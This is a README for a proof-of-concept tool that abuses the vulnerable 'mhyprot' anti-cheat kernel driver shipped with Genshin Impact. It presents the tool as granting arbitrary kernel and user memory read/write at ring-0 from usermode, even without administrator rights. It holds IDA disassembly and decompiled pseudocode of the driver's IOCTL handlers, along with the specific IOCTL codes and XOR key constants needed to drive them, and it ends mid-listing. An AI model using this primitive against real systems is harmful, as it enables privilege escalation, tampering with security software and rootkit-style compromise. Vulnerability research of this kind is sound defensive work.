










# evil-mhyprot-cli
A PoC for vulnerable driver "mhyprot" that allows us to read/write memory in kernel/user from usermode.

### Static Library is here: [libmhyprot](https://github.com/kkent030315/libmhyprot)

# Updates

- 10/20/2020 implemented thread enumeration
- 10/20/2020 implemented mhyprot::driver_impl::get_system_uptime
- 10/19/2020 implemented module eunmeration



# Overview

What we can do with this CLI is as follows:

- Read/Write any kernel memory with privilege of kernel from usermode
- Read/Write any user memory with privilege of kernel from usermode
- Enumerate a number of modules by specific process id (**New**)
- Get system uptime (**New**)
- Enumerate threads in specific process, result in allows us to reading `PETHREAD` structure in the kernel directly from CLI as well.
- All operations are executed as kernel level privilege (ring-0) by the vulnerable driver

Also:

- Administrator privilege only needed if the service is not yet running
- Therefore we can execute commands above as the normal user (w/o administrator privilege)

---

The `mhyprot` is an anti-cheat kernel mode driver used in [`Genshin Impact`](https://genshin.mihoyo.com/ja).  
The driver has vulnerable `IOCTL` commands that allows us to execute `MmCopyVirtualMemory` and `memcpy(in the kernel!)` from ring-3 (usermode).


# Impact

Investigating

# Requirements

- Any version of Windows x64 that the driver works on
- Administrator privilege **does not required** if the service already running

Tested on:

- Windows10 x64 1903
- Windows7 x64 6.1
- Windows8.1 x64 6.3

# Usage

```
bin.exe [TargetProcess] -options
```

following options are available as of now:

- `t`
  - Perform Tests
- `d`
  - Print debug infos
- `s`
  - Print seedmap

# Analysis and Proofs

> The document(s) below is still in write
so please forgive any mistakes I took in advance.

## IOCTL Handler Functions

So what I did is that to reverse engineering around IOCTL handling functionalities.  

Since around ioctl functions and its functionalities are packed, to reverse engineering is not easy than average.  
but I can still easily find the function that registered at `DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL]` since the IOCTL handler must have an `IoCompleteRequest` or like `IofCompleteRequest` that exported by `ntoskrnl`.  
(Btw `IoCompleteRequest` is just a wrapper of `IofCompleteRequest`)  


As mhyprot imports `IofCompleteRequest` then go xrefs, and we will see there are many ioctl handlers.  
Concretely, I found two big subroutine in packed segment.  

I've added it to [this repo](IDA) as binary since it's too big.  

- [sub_FFFFF800188CD000](IDA/sub_FFFFF800188CD000.txt)
  - -> [Pseudocode](https://github.com/kkent030315/evil-mhyprot-cli/blob/main/IDA/FUN_0001d000.cpp)
- [sub_FFFFF800188CD6E0](IDA/sub_FFFFF800188CD6E0.txt)
  - -> [Pseudocode](https://github.com/kkent030315/evil-mhyprot-cli/blob/main/IDA/FUN_0001d6e0.cpp)

I will keep update if I found more another subroutine.

## Driver Initialization

The `MHYPROT_IOCTL_INITIALIZE` what I defined in [mhyprot.hpp#L18](src/mhyprot.hpp#L18) can be found as follows:

```cpp
PAGE:FFFFF800188CD8FD loc_FFFFF800188CD8FD:                   ; CODE XREF: sub_FFFFF800188CD6E0+213↑j
PAGE:FFFFF800188CD8FD                 cmp     ecx, 80034000h  ; MHYPROT_IOCTL_INITIALIZE
PAGE:FFFFF800188CD903                 jnz     short loc_FFFFF800188CD984
PAGE:FFFFF800188CD905                 cmp     r8d, 10h
PAGE:FFFFF800188CD909                 jnz     loc_FFFFF800188CDA4F
PAGE:FFFFF800188CD90F                 mov     rax, 0EBBAAEF4FFF89042h // <- _m_002
PAGE:FFFFF800188CD919                 xor     [rdi+8], rax
PAGE:FFFFF800188CD91D                 mov     rax, [rdi+8]
PAGE:FFFFF800188CD921                 xor     [rdi], rax
PAGE:FFFFF800188CD924                 cmp     dword ptr [rdi+4], 0BAEBAEECh // <- _m_001
PAGE:FFFFF800188CD92B                 jnz     loc_FFFFF800188CDA4F
PAGE:FFFFF800188CD931                 mov     ecx, [rdi]
PAGE:FFFFF800188CD933                 call    sub_FFFFF800188C51A8
PAGE:FFFFF800188CD938                 cmp     dword ptr cs:qword_FFFFF800188CA108, 0
PAGE:FFFFF800188CD93F                 jnz     short loc_FFFFF800188CD97D
PAGE:FFFFF800188CD941                 mov     rdx, [rdi+8]
PAGE:FFFFF800188CD945                 lea     rcx, xmmword_FFFFF800188CA0E8
PAGE:FFFFF800188CD94C                 call    sub_FFFFF800188C301C // <-
PAGE:FFFFF800188CD951                 mov     ebx, 7
```

and the `sub_FFFFF800188C301C` is look like:

```cpp
.text:FFFFF800188C301C ; =============== S U B R O U T I N E =======================================
.text:FFFFF800188C301C
.text:FFFFF800188C301C
.text:FFFFF800188C301C sub_FFFFF800188C301C proc near          ; CODE XREF: sub_FFFFF800188CD6E0+26C↓p
.text:FFFFF800188C301C                                         ; DATA XREF: .upx0:FFFFF800189F2BA8↓o
.text:FFFFF800188C301C
.text:FFFFF800188C301C arg_0           = qword ptr  8
.text:FFFFF800188C301C
.text:FFFFF800188C301C                 test    rcx, rcx
.text:FFFFF800188C301F                 jz      locret_FFFFF800188C30B4
.text:FFFFF800188C3025                 mov     [rsp+arg_0], rbx
.text:FFFFF800188C302A                 push    rdi
.text:FFFFF800188C302B                 sub     rsp, 20h
.text:FFFFF800188C302F                 xor     eax, eax
.text:FFFFF800188C3031                 mov     rdi, rdx
.text:FFFFF800188C3034                 mov     [rcx], rax
.text:FFFFF800188C3037                 mov     rbx, rcx
.text:FFFFF800188C303A                 mov     [rcx+8], rax
.text:FFFFF800188C303E                 mov     edx, 9C0h       ; NumberOfBytes
.text:FFFFF800188C3043                 xor     ecx, ecx        ; PoolType
.text:FFFFF800188C3045                 call    cs:ExAllocatePool
.text:FFFFF800188C304B                 xor     edx, edx
.text:FFFFF800188C304D                 mov     r8d, 9C0h
.text:FFFFF800188C3053                 mov     rcx, rax
.text:FFFFF800188C3056                 mov     [rbx], rax
.text:FFFFF800188C3059                 call    sub_FFFFF800188C7900
.text:FFFFF800188C305E                 mov     rax, [rbx]
.text:FFFFF800188C3061                 mov     r9d, 1
.text:FFFFF800188C3067                 mov     [rbx+0Ch], r9d
.text:FFFFF800188C306B                 mov     [rax], rdi
.text:FFFFF800188C306E                 mov     [rbx+8], r9d
.text:FFFFF800188C3072
.text:FFFFF800188C3072 loc_FFFFF800188C3072:                   ; CODE XREF: sub_FFFFF800188C301C+8C↓j
.text:FFFFF800188C3072                 movsxd  r8, dword ptr [rbx+8]
.text:FFFFF800188C3076                 mov     rdx, [rbx]
.text:FFFFF800188C3079                 mov     rax, [rdx+r8*8-8]
.text:FFFFF800188C307E                 mov     rcx, rax
.text:FFFFF800188C3081                 shr     rcx, 3Eh
.text:FFFFF800188C3085                 xor     rcx, rax
.text:FFFFF800188C3088                 mov     rax, 5851F42D4C957F2Dh
.text:FFFFF800188C3092                 imul    rcx, rax
.text:FFFFF800188C3096                 add     rcx, r8
.text:FFFFF800188C3099                 mov     [rdx+r8*8], rcx
.text:FFFFF800188C309D                 add     [rbx+8], r9d
.text:FFFFF800188C30A1                 cmp     dword ptr [rbx+8], 138h
.text:FFFFF800188C30A8                 jl      short loc_FFFFF800188C3072
.text:FFFFF800188C30AA                 mov     rbx, [rsp+28h+arg_0]
.text:FFFFF800188C30AF                 add     rsp, 20h
.text:FFFFF800188C30B3                 pop     rdi
.text:FFFFF800188C30B4
.text:FFFFF800188C30B4 locret_FFFFF800188C30B4:                ; CODE XREF: sub_FFFFF800188C301C+3↑j
.text:FFFFF800188C30B4                 retn
.text:FFFFF800188C30B4 sub_FFFFF800188C301C endp
```

## A Way of Read/Write Specific Process Memory

The mhyprot calls `MmCopyVirtualMemory` eventually as wrapper defined as follows:

```cpp
__int64 __fastcall sub_FFFFF800188C3EB8(struct _EPROCESS *a1, _DWORD *a2, __int64 a3)
{
  __int64 v3; // rbp
  _DWORD *v4; // rdi
  struct _EPROCESS *v5; // rbx
  PEPROCESS v6; // rsi
  char v8; // [rsp+28h] [rbp-20h]

  v3 = a3;
  v4 = a2;
  v5 = a1;
  if ( *a2 == 1 )
  {
    v6 = IoGetCurrentProcess();
  }
  else
  {
    v6 = a1;
    v5 = IoGetCurrentProcess();
  }
  v8 = 0;
  return MmCopyVirtualMemory(v6, *((_QWORD *)v4 + 3), v5, *((_QWORD *)v4 + 2), (unsigned int)v4[8], v8, v3);
}
```

Called by:

```cpp
__int64 __fastcall sub_FFFFF800188C3F2C(_DWORD *a1_rw_request, __int64 a2_returnsize, __int64 a3)
{
  __int64 v3_returnsize; // rsi
  _DWORD *v4_rw_request; // rbx
  __int64 v5_processid; // rcx
  bool v6_ntstatus_lookup_success_bool; // di
  unsigned int v8_ntstatus; // ebx
  PVOID Object; // [rsp+40h] [rbp+8h]

  v3_returnsize = a2_returnsize;
  v4_rw_request = a1_rw_request;
  v5_processid = (unsigned int)a1_rw_request[2];
  Object = 0i64;
  v6_ntstatus_lookup_success_bool = (int)PsLookupProcessByProcessId(v5_processid, &Object, a3) >= 0;// NT_SUCCESS
  if ( !Object )
    return 3221225473i64;
  v8_ntstatus = sub_FFFFF800188C3EB8((struct _EPROCESS *)Object, v4_rw_request, v3_returnsize);
  if ( v6_ntstatus_lookup_success_bool )
    ObfDereferenceObject(Object);
  return v8_ntstatus;
}
```

Called by:

```cpp
bool __fastcall sub_FFFFF800188C4214(_DWORD *a1_rw_request, _DWORD *a2_returnsize, __int64 a3)
{
  _DWORD *v3_returnsize; // rbx
  int v5_ntstatus; // [rsp+20h] [rbp-18h]
  __int64 v6_returnsize; // [rsp+50h] [rbp+18h]

  v3_returnsize = a2_returnsize;
  v6_returnsize = 0i64;
  v5_ntstatus = sub_FFFFF800188C3F2C(a1_rw_request, (__int64)&v6_returnsize, a3);
  *v3_returnsize = v6_returnsize;
  return v5_ntstatus == 0;                      // NT_SUCCESS(v5_ntstatus)
}
```

Finally we are at the root of the tree:

```cpp
PAGE:FFFFF800188CD303 loc_FFFFF800188CD303:                   ; CODE XREF: sub_FFFFF800188CD000+2C7↑j
PAGE:FFFFF800188CD303                 and     dword ptr [rbp+1D0h+arg_20], 0
PAGE:FFFFF800188CD30A                 lea     rdx, [rbp+1D0h+arg_20]
PAGE:FFFFF800188CD311                 mov     rcx, [rsp+30h]
PAGE:FFFFF800188CD316                 call    sub_FFFFF800188C4214 // <- Here
PAGE:FFFFF800188CD31B                 jmp     loc_FFFFF800188CD21C
```

Call map:



### Proof

I have confirmed that by simply hooking mhyprot kernel module:



## A Way of Read Kernel Memory

We can see so many IOCTL commands and the `MHYPROT_IOCTL_READ_KERNEL_MEMORY` what I defined in [mhyprot.hpp#L19](src/mhyprot.hpp#L19) can be found as follows:

```cpp
PAGE:FFFFF800188CD7A9 loc_FFFFF800188CD7A9:                   ; CODE XREF: sub_FFFFF800188CD6E0+BA↑j
PAGE:FFFFF800188CD7A9                 cmp     ecx, 83064000h  ; MHYPROT_IOCTL_READ_KERNEL_MEMORY
PAGE:FFFFF800188CD7AF                 jnz     short loc_FFFFF800188CD7C8
PAGE:FFFFF800188CD7B1                 mov     rdx, [rdi]
PAGE:FFFFF800188CD7B4                 lea     rcx, [rdi+4]
PAGE:FFFFF800188CD7B8                 mov     r8d, [rdi+8]
PAGE:FFFFF800188CD7BC                 call    sub_FFFFF800188C63A8 // <-
```

And the `sub_FFFFF800188C63A8` is like:

```cpp
.text:FFFFF800188C63A8 sub_FFFFF800188C63A8 proc near          ; CODE XREF: sub_FFFFF800188CD6E0+DC↓p
.text:FFFFF800188C63A8                                         ; DATA XREF: .upx0:FFFFF800189F2EE4↓o
.text:FFFFF800188C63A8
.text:FFFFF800188C63A8 arg_0           = qword ptr  8
.text:FFFFF800188C63A8 arg_8           = qword ptr  10h
.text:FFFFF800188C63A8
.text:FFFFF800188C63A8                 mov     [rsp+arg_0], rbx
.text:FFFFF800188C63AD                 mov     [rsp+arg_8], rsi
.text:FFFFF800188C63B2                 push    rdi
.text:FFFFF800188C63B3                 sub     rsp, 20h
.text:FFFFF800188C63B7                 mov     edi, r8d
.text:FFFFF800188C63BA                 mov     rbx, rdx
.text:FFFFF800188C63BD                 mov     rsi, rcx
.text:FFFFF800188C63C0                 test    rdx, rdx
.text:FFFFF800188C63C3                 jz      short loc_FFFFF800188C63F2
.text:FFFFF800188C63C5                 test    r8d, r8d
.text:FFFFF800188C63C8                 jz      short loc_FFFFF800188C63F2
.text:FFFFF800188C63CA                 mov     rax, cs:MmHighestUserAddress
.text:FFFFF800188C63D1                 cmp     rdx, [rax]
.text:FFFFF800188C63D4                 jb      short loc_FFFFF800188C63F2
.text:FFFFF800188C63D6                 mov     r8d, edi
.text:FFFFF800188C63D9                 xor     edx, edx
.text:FFFFF800188C63DB                 call    sub_FFFFF800188C7900
.text:FFFFF800188C63E0                 mov     r8d, edi
.text:FFFFF800188C63E3                 mov     rdx, rsi
.text:FFFFF800188C63E6                 mov     rcx, rbx
.text:FFFFF800188C63E9                 call    sub_FFFFF800188C3DD8
.text:FFFFF800188C63EE                 xor     eax, eax
.text:FFFFF800188C63F0                 jmp     short loc_FFFFF800188C63F5
```
  
Here is the ioctl handlers, found the `0x83064000`(`MHYPROT_IOCTL_READ_KERNEL_MEMORY`) as `cmp ecx, 83064000h` and some another ioctl codes as follows:


Call map:  
  
As I defined as `DWORD result` in [mhyprot.hpp#L40](https://github.com/kkent030315/evil-mhyprot-cli/blob/main/src/mhyprot.hpp#L40) the first 4bytes is result.  
I can guess it's a `NTSTATUS` as it typedef'ed as `typedef LONG NTSTATUS` natively and the dispathers return types are `NTSTATUS` and the result will directly be got stored from it.


## Enumerate Modules

So the driver has a lots of commands that make us advantage.  
In this case, we are able to enumerate modules that loaded in the target process by process id and a number which specifies we want to get.

I'll explain herewith below how I made it managed to work it with reverse engineering.  
The implementation can be found at [mhyprot.cpp#L343](https://github.com/kkent030315/evil-mhyprot-cli/blob/main/src/mhyprot.cpp#L343).  

First of all, As you can see there is `cmp ecx, 82054000h` as I defined in [mhyprot.hpp#L22](https://github.com/kkent030315/evil-mhyprot-cli/blob/main/src/mhyprot.hpp#L22) as `MHYPROT_IOCTL_ENUM_PROCESS_MODULES`.  



And it calls:

```cpp
__int64 __fastcall sub_FFFFF800188C26D0(unsigned int a1, __int64 a2, __int64 a3)
{
  __int64 v3; // rsi
  unsigned int v4; // ebx
  bool v5; // di
  unsigned int v7; // ebx
  PVOID Object; // [rsp+58h] [rbp+20h]

  v3 = a2;
  Object = 0i64;
  v4 = a3;
  v5 = (int)PsLookupProcessByProcessId(a1, &Object, a3) >= 0;
  if ( !Object )
    return 0i64;
  v7 = sub_FFFFF800188C27D4(Object, v3, v4);
  if ( Object )
  {
    if ( v5 )
      ObfDereferenceObject(Object);
  }
  return v7;
}
```

As you cansee, the function checks is process `32-bit` or `64-bit` by `PsGetProcessWow64Process()` since `PEB` is different between 32 and 64-bit processes.  
In this case, I only talk about for 64-bit process.  

After that, the function attaches from kernel using `KeStackAttachProcess`. the second parameter is `PKAPC_STATE`.  
Then, call `PsGetProcessPeb` and get the [PEB](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb) belongs to the target process.  

...`LDR_MODULE` is undocumented structure.  

```cpp
typedef struct _LDR_MODULE {
  LIST_ENTRY              InLoadOrderModuleList;
  LIST_ENTRY              InMemoryOrderModuleList;
  LIST_ENTRY              InInitializationOrderModuleList;
  PVOID                   BaseAddress;
  PVOID                   EntryPoint;
  ULONG                   SizeOfImage;
  UNICODE_STRING          FullDllName;
  UNICODE_STRING          BaseDllName;
  ULONG                   Flags;
  SHORT                   LoadCount;
  SHORT                   TlsIndex;
  LIST_ENTRY              HashTableEntry;
  ULONG                   TimeDateStamp;
} LDR_MODULE, *PLDR_MODULE;
```

And the function pseudocode for `sub_FFFFF800188C27D4` is like:

```cpp
__int64 __fastcall sub_FFFFF800188C27D4(
  __int64 a1,       // pEPROCESS
  __int64 a2,       // pointer to the buffer that sent from usermode
  unsigned int a3   // max count to get
)
{
  ...
  
  if ( !a1 )
    return 0i64;
    
  v9 = ((__int64 (*)(void))PsGetProcessWow64Process)() != 0;
  KeStackAttachProcess(v5, &v30);
  
  if ( !v9 ) // the process is 64-bit
  {
    v17 = PsGetProcessPeb(v5); // Lookup PEB
    v18 = v17;
    if ( v17 )
    {
      v19 = *(_QWORD *)(v17 + 24); // PEB->Ldr
      if ( v19 )
      {
        for ( j = *(__int64 **)(v19 + 16);
              j != (__int64 *)(*(_QWORD *)(v18 + 24) + 16i64); // PEB->Ldr->InMemoryOrderModuleList.Flink
              j = (__int64 *)*j )
        {
          if ( v7 < v3 ) // if the counter less than a number what we want to get
          {
            v21 = 928i64 * v7; // [IMPORTANT] we can see output structure is 0x3A0 alignment
            sub_FFFFF800188C7900(v21 + v4 + 12, 0i64, 256i64); // fill memory by 0 sizeof 0x100
            sub_FFFFF800188C7900(v21 + v4 + 268, 0i64, 520i64); // fill memory by 0 sizeof 0x208
            *(_QWORD *)(v21 + v4) = j[6];
            *(_DWORD *)(v21 + v4 + 8) = *((_DWORD *)j + 16);
            v22 = *((_WORD *)j + 44);
            v23 = 127i64;
            if ( v22 <= 0x7Fu )
              v23 = v22;
